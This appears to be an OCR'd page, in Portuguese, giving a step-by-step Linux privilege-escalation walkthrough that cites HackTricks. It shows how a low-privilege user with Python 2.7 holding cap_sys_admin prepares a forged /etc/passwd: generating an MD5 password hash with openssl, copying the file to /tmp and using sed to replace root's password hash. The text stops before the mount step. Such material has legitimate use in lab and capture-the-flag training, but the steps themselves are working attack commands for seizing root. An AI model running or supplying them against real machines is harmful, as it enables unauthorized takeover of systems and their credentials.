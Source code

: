 ### 🧨 Desafio:

Você está com permissão baixa e **não consegue editar o `/etc/passwd` diretamente** com `nano`, `vim` ou `echo`, **mas o Python 2.7 tem `cap_sys_admin`**, o que te permite montar outro arquivo sobre ele — isso é o que o método explora.

---

## ✅ Agora passo a passo com base no HackTricks

---

### 🔹 1. Gere a senha com OpenSSL (você já fez):

```bash
openssl passwd -1 -salt abc vert16xx
```

Resultado:

```
$1$abc$2H0JEHV8dgQ1XqM3KjN3Y0
```

---

### 🔹 2. Copie o conteúdo real do `/etc/passwd` para um arquivo temporário

```bash
cp /etc/passwd /tmp/passwd
```

---

### 🔹 3. Edite o arquivo copiado

Como você não tem `nano` nem `vim`, use o `sed` para trocar o hash da linha `root:`:

```bash
sed -i 's|^root:[^:]*:|root:$1$abc$2H0JEHV8dgQ1XqM3KjN3Y0:|' /tmp/passwd
```

Isso substitui a senha do root pelo seu hash.

✅ Agora veja o resultado:

```bash
head -n 1 /tmp/passwd
```

Deve aparecer:

```
root:$1$abc$2H0JEHV8dgQ1XqM3KjN3Y0:0:0:root:/root:/bin/bash
```

---
